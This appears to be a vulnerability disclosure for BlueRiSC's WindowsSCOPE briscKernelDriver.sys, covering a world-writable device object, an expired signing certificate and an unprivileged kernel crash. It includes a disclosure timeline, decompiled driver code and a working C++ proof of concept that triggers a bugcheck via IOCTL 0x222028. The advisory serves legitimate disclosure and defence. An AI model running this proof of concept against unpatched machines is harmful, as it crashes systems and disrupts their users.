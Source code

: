 # WindowsSCOPE Vulnerabilities

## Overview

Vendor			   	: BlueRiSC

Website			   	: https://www.windowsscope.com/

Product			   	: briscKernelDriver.sys

Affected Version(s)	: < 3.3

"WindowsSCOPE Cyber Forensics 3.2 is a GUI-based memory forensic capture and analysis toolkit. It supports the import of standard raw physical memory dumps which are then automatically reverse engineered and presented in an easy-to-view format for forensic analysis in a central location. It automatically identifies all processes, threads, and drivers running on the system as well as other system activity including open files, registry keys, and network sockets. It supports the latest Windows versions through Windows 10 and also has advanced data search capabilities to find URLs, credit cards, names, etc. in captured memory. Applications include digital forensics, crime investigation, cyber defense & attack detection, and other reverse engineering activities."

While reviewing the briscKernelDriver.sys, several security issues were discovered. These issues include:
- Overly permissive access control to, `\\.\BriscKernel`, the device object created by the briscKernelDriver.sys driver.
- Expired code signing certificate for the briscKernelDriver.sys driver.
- Ability to leverage the briscKernelDriver.sys to perform memory operations in the context of an unprivileged user.
- Ability to trigger a denial-of-service condition (kernel bugcheck) if incorrect data was passed to the briscKernelDriver.sys in the context of an unprivileged user.

## Disclosure Timeline
- **02/13/2024** - Initial disclosure to BlueRiSC and notified of intent to publicly disclose security issues within 90-days.
- **02/14/2024** - Acknowledgement from BlueRiSC. Provided clarifying information about device object permissions and provided a method for them to confirm the ACL issues were addressed.
- **03/04/2024** - WindowsSCOPE website now displays version 3.3 indicating a silent patch without disclosure. Additional email to BlueRiSC was sent asking for clarification about this patch and advised that if these issues have been remediated, then we will move forward with an earlier public disclosure. 
- **03/05/2024** - BlueRiSC stated that version 3.3 contains the fix for the driver permission issue. A copy of the updated driver was requested to confirm everything was fixed.
- **03/06/2024** - BlueRiSC agreed to have the version 3.3 kernel driver tested to confirm permissions issue was fixed.
- **03/15/2024** - Version 3.3 kernel driver was tested and ACL fix was confirmed.
- **03/15/2024** - Public disclosure.

## Expired Driver Signing Certificate
WindowsSCOPE Cyber Forensics 3.2 ships with a version of briscKernelDriver.sys (built January 23, 2019) that has an expired signing certifiate.

![Expired Signing Certificate](images/expired-certificate.png)

A user of the WindowsSCOPE product would need to disable driver signature enforcement to use the provided driver.

## Overly Permissive Device Object ACL
The briscKernelDriver.sys driver creates a device object that allows the Everyone built-in group to write to the device. This is because `IoCreateDevice` was used instead of `WdmlibIoCreateDeviceSecure`\\`IoCreateDeviceSecure`.

![Device Object Permissions](images/device-object-permissions.png)

```c++
NTSTATUS DriverEntry(DRIVER_OBJECT* DriverObject)

    DbgPrint(Format: "BlueRISC Kernel Driver\n")
    DbgPrint(Format: "Built %s %s\n", "Jan 23 2019", "09:55:52")
    DriverObject->MajorFunction[0] = IRP_MJ_CreateClose
    DriverObject->MajorFunction[2] = IRP_MJ_CreateClose
    DriverObject->DriverUnload = sub_19314
    DriverObject->MajorFunction[0xe] = IRP_MJ_DEVICE_CONTROL
    void DeviceName
    RtlInitUnicodeString(DestinationString: &DeviceName, SourceString: u"\Device\BriscKernel")
    NTSTATUS rax = IoCreateDevice(DriverObject, DeviceExtensionSize: 0, DeviceName: &DeviceName, DeviceType: 0x22, DeviceCharacteristics: 0, Exclusive: 0, DeviceObject: &DeviceObject)
    if (rax s>= STATUS_SUCCESS)
        void SymlinkName
        RtlInitUnicodeString(DestinationString: &SymlinkName, SourceString: u"\DosDevices\BRISCKERNEL")
        NTSTATUS rax_1 = IoCreateSymbolicLink(SymbolicLinkName: &SymlinkName, DeviceName: &DeviceName)
        if (rax_1 s>= STATUS_SUCCESS)
            DEVICE_OBJECT* DeviceObject_1 = DeviceObject
            DeviceObject_1->Flags = DeviceObject_1->Flags | DO_BUFFERED_IO
            rax = STATUS_SUCCESS
        else
            IoDeleteDevice(DeviceObject)
            rax = rax_1
    return rax
```

## Denial of Service Proof-of-Concept
It is possible from an unprivileged context to interact with the driver and create a denial of service condition. This is possible by sending unexpected data to the `0x222028` IOCTL.

```c++
if (IOCTL == 0x222028)
    HANDLE Handle = *PIRP->AssociatedIrp
    DbgPrint(Format: "processHandle = 0x%x\n", Handle)
    rax_13 = ObReferenceObjectByHandle(Handle, DesiredAccess: 0x418, ObjectType: *PsProcessType, AccessMode: PIRP->RequestorMode, Object: &arg_10, HandleInformation: nullptr)
    rbx = rax_13
    if (rax_13 s>= STATUS_SUCCESS)
        void ApcState
        KeStackAttachProcess(PROCESS: arg_10, ApcState: &ApcState)
        *nullptr = 0
        PIRP->IoStatus.Information = 0
    else
        DbgPrint(Format: "ObReferenceObjectByHandle failed")
```

![Kernel Bug Check](images/bugcheck.png)

```c++
#include <windows.h>
#include <iostream>
#include <DbgHelp.h>
#include <TlHelp32.h>

#pragma comment(lib, "Dbghelp.lib")

#define IOCTL_GetVirtMem 0x222020
#define IOCTL_TriggerBugCheck 0x222028

static const char* DeviceName = R"(\\.\BriscKernel)";

typedef struct _BRISC_READ_MEMORY {
    HANDLE pHandle;
} BRISC_READ_MEMORY, * PBRISC_READ_MEMORY;

DWORD GetProcessIdByName(const std::wstring& processName) {
    HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pEntry;
    pEntry.dwSize = sizeof(pEntry);

    BOOL hRes = Process32First(hSnapShot, &pEntry);
    while (hRes) {
        if (wcscmp(pEntry.szExeFile, processName.c_str()) == 0) {
            CloseHandle(hSnapShot);
            return pEntry.th32ProcessID;
        }
        hRes = Process32Next(hSnapShot, &pEntry);
    }

    CloseHandle(hSnapShot);
    return 0;
}

std::wstring StringToWString(const std::string& s) {
    int len;
    int slength = (int)s.length() + 1;
    len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);
    wchar_t* buf = new wchar_t[len];
    MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);
    std::wstring r(buf);
    delete[] buf;
    return r;
}

constexpr DWORD cexpr_lstrlenW(const wchar_t str[]) {
    DWORD i = 0;
    while (str[i++]) {}
    return i;
}

void DumpVirtualMemory(const std::wstring& processName) {
    DWORD pid = GetProcessIdByName(processName);
    if (pid == 0) {
        std::wcout << L"Process not found.\n";
        return;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        std::wcout << L"Failed to open process.\n";
        return;
    }

    HANDLE hDevice = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE) {
        std::wcout << L"Failed to open device.\n";
        CloseHandle(hProcess);
        return;
    }

    BRISC_READ_MEMORY readMemory;
    readMemory.pHandle = hProcess;
    BYTE outBuffer[0x1004] = { 0 };
    DWORD dwBytesReturned;

    BOOL bResult = DeviceIoControl(hDevice, IOCTL_TriggerBugCheck, &readMemory, 0x18, outBuffer, 0x1004, &dwBytesReturned, NULL);
    if (!bResult) {
        std::wcout << L"DeviceIoControl failed with error: " << GetLastError() << L"\n";
    }
    else {
        std::wcout << L"You won't even see this because we bugchecked the system.\n";
        std::wcout << L"Memory dumped successfully.\n";

        std::wstring filePath = L"dumped_memory.bin";
        HANDLE hFile = CreateFileW(filePath.c_str(), GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hFile != INVALID_HANDLE_VALUE) {
            DWORD written;
            BOOL writeResult = WriteFile(hFile, outBuffer, dwBytesReturned, &written, NULL);
            if (!writeResult || written != dwBytesReturned) {
                std::wcout << L"Failed to write memory dump to file.\n";
            }
            else {
                std::wcout << L"Memory dump successfully written to " << filePath << L"\n";
            }
            CloseHandle(hFile);
        }
        else {
            std::wcout << L"Failed to open file for writing.\n";
        }
    }

    CloseHandle(hDevice);
    CloseHandle(hProcess);
}

int main() {
    DumpVirtualMemory(L"PoC.exe");
}
```
